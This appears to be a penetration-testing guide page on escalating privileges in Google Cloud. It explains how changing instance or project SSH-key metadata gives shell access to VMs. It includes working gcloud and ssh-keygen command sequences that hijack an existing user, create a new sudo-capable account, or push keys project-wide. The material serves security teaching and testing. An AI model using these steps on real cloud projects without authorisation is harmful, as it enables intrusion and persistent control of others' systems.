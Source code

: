 # GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

## GCP - Add Custom SSH Metadata



### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**

   - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

     ```bash
     gcloud compute instances describe [INSTANCE] --zone [ZONE]
     ```

   - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
   - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**

   - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

     ```bash
     ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
     ```

   - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**

   - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

     ```bash
     gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
     ```

5. **Access the Instance Using the New SSH Key:**

   - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

     ```bash
     ssh -i ./key alice@localhost
     sudo id
     ```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**

   - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

     ```bash
     gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
     ```

2. **SSH into Instances Using Project-Wide Keys:**
   - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}


